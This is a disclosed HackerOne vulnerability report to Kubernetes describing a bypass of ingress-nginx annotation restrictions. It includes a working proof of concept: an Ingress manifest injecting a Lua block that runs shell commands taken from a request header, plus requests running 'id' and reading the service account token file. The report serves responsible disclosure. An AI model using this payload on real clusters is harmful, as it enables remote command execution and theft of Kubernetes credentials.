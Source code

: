 # Ingress nginx annotation injection causes arbitrary command execution

## Report Details
- **Report ID**: 1728174
- **URL**: https://hackerone.com/reports/1728174
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-10-10T09:58:57.995Z
- **Disclosed**: 2023-11-24T21:23:20.589Z

## Reporter
- **Username**: suanve
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: kubernetes

## Vulnerability Information
Report Submission Form

## Summary:
[add a summary of the vulnerability]
For CVE-2021-25742 and CVE-2021-25746, I found a bypass method, which is fatal to the current measures taken by the team
I can easily bypass restrictions and execute arbitrary commands in the express nginx container.
## Kubernetes Version:
[add Kubernetes version & distribution in which the issue was found]

Server Version: version.Info{Major:"1", Minor:"25", GitVersion:"v1.25.2", GitCommit:"5835544ca568b757a8ecae5c153f317e5736700e", GitTreeState:"clean", BuildDate:"2022-09-21T14:27:13Z", GoVersion:"go1.19.1", Compiler:"gc", Platform:"linux/arm64"}



## Component Version:
[if applicable, add component version the issue was found]
ingress-nginx/controller-v1.4.0
https://raw.githubusercontent.com/kubernetes/ingress-nginx/controller-v1.4.0/deploy/static/provider/cloud/deploy.yaml

## Steps To Reproduce:
[add details for how we can reproduce the issue, including relevant cluster setup and configuration]
In the latest version (1.4.0), alias was blacklisted,However, nginx supports lua. I can use other watches to insert any location configuration items.
It is meaningless to simply restrict alias instructions. Your team should start from multiple perspectives.

1. minikube start
2. kubectl apply -f https://raw.githubusercontent.com/kubernetes/ingress-nginx/controller-v1.4.0/deploy/static/provider/cloud/deploy.yaml
3. 

We use nginx. ingress. kubernetes The io/configuration snippet annotation can be found in nginx Insert a new location in conf and execute any command through lua.

```shell
cat > su.yml<<EOF
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: ingress-exploit
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "suanve"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /suanve/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: suanve.susec.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: exploit
            port:
              number: 80

EOF

kubectl apply -f su.yml
```

This will cause the nginx configuration to be tampered with. We can execute any command in the corresponding ingress.

```shell
curl -v -H 'Host: suanve.susec.me' -H "cmd: id" 127.0.0.1/suanve/
*   Trying 127.0.0.1:80...
* Connected to 127.0.0.1 (127.0.0.1) port 80 (#0)
> GET /suanve/ HTTP/1.1
> Host: suanve.susec.me
> User-Agent: curl/7.79.1
> Accept: */*
> cmd: id
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 10 Oct 2022 09:58:18 GMT
< Content-Type: text/html
< Transfer-Encoding: chunked
< Connection: keep-alive
<
uid=101(www-data) gid=82(www-data) groups=82(www-data)
```

* Connection #0 to host 127.0.0.1 left intact

```http
GET /suanve/ HTTP/1.1
Host: suanve.susec.me
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
cmd: cat /var/run/secrets/kubernetes.io/serviceaccount/token
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
Content-Length: 2



```




## Supporting Material/References:
[list any additional material (e.g. screenshots, logs, etc.)]
{F1978646}

{F1978648}
  * [attachment / reference]

https://hackerone.com/reports/1378175

https://github.com/kubernetes/ingress-nginx/issues/8503

## Impact

Arbitrary command execution
Get kubernetes credentials

## Attachments
- image.png
- image.png
